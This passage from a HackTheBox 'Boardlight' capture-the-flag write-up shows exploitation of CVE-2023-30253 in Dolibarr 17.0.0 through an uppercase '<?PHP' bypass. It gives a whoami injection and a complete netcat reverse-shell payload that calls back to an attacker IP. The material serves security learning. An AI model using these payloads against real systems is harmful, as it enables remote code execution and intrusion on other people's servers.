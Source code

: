 ![Foothold-Admin_Dashboard](../../../Materials/HackTheBox/Machines/Easy/Boardlight/Foothold-Admin_Dashboard.png)  


*We research vulnerabilities related to Dolibarr version 17.0.0 and discover **CVE-2023-30253**.*

> [!INFORMATION]
> 
> This vulnerability states that Dolibarr versions before 17.0.1 allow remote code execution by an authenticated user through an uppercase manipulation, using `<?PHP `instead of `<?php` in injected data.
> 

*We create a new page on the site, injecting a PHP payload to run the `whoami` command:*

*To exploit this, we first need to create a new website and inject PHP code into one of the pages we create. We then embed our PHP code here to run `whoami` on the target*

```php
--------------------------------------------------------------------------------------------------------------------------
								Website interface

<?PHP echo system("whoami");?>

# Previewing the code print the output of the payload on the website
www-data wwww-data
```
*After injecting the payload, we see the output `www-data`, indicating the user under which the web server is running.*

### 5. Reverse Shell Exploitation
*We modify our PHP payload to spawn a reverse shell by using Netcat:*

```php
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9000 >/tmp/f");?>
```

*On our attacking machine, we start a Netcat listener on port 9000 to catch the incoming connection.*
